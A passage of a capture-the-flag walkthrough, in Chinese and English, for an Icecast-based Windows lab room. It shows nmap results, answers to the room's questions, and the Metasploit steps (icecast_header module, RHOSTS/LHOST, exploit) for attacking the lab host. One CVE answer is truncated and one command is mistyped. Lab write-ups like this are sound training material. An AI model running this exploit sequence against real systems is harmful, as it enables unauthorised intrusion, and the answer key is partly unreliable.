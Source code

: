 	TRACEROUTE (using port 110/tcp)
	HOP RTT       ADDRESS
	1   139.52 ms 10.13.0.1
	2   ... 3
	4   283.86 ms 10.10.209.59

	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 104.04 seconds
	```



- Once the scan completes, we'll see a number of interesting ports open on this machine. As you might have guessed, the firewall has been disabled (with the service completely shutdown), leaving very little to protect this machine. One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on?
	- 一堆字，題目不會講重點ㄇ...他問 RDP 是什麼 Port
	- `3389`


- What service did nmap identify as running on port 8000? (First word of this service)
	- 用 `-A` 的 nmap 可以看出
	- 他是 `Icecast`


- What does Nmap identify as the hostname of the machine? (All caps for the answer)
	- 一樣是 `-A` 的 nmap 有寫到 `Host:`
	- `DARK-PC`


## Gain Access 

- Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.
	- 我們知道他是 `Icecast` 就可以找到他的弱點
	- 不過我是直接 Google `Icecast RCE`
		- ~~我覺得 cvedetails 的搜尋很難用~~
	- https://www.cvedetails.com/cve/CVE-2004-1561/
	- 題目問說 Type
		- ![](https://i.imgur.com/SmZtXs1.png)
	- 所以是 `Execute Code Overflow`

- What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
	- `CVE-2004-156`
- After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 
	- 開啟 msf
		- `msfconsole`
	- 輸入 `search icecast` 尋找 icecast 相關攻擊 module
		- ![](https://i.imgur.com/JahaOFV.png)
	- 可以找到 module 為
		- `exploit/windows/http/icecast_header`
- 準備 Exploit
	- 輸入 `use 0` 或 `use exploit/windows/http/icecast_header`
	- 輸入 `show options`
	- ![](https://i.imgur.com/ebWMHSw.png)
	- 可以看到我們需要輸入的參數
		- RHOSTS
		- LHOST
	- `set RHOSTS 10.10.209.59`
	- `set LHOSTS 10.13.21.55`
	- 輸入 `exploit`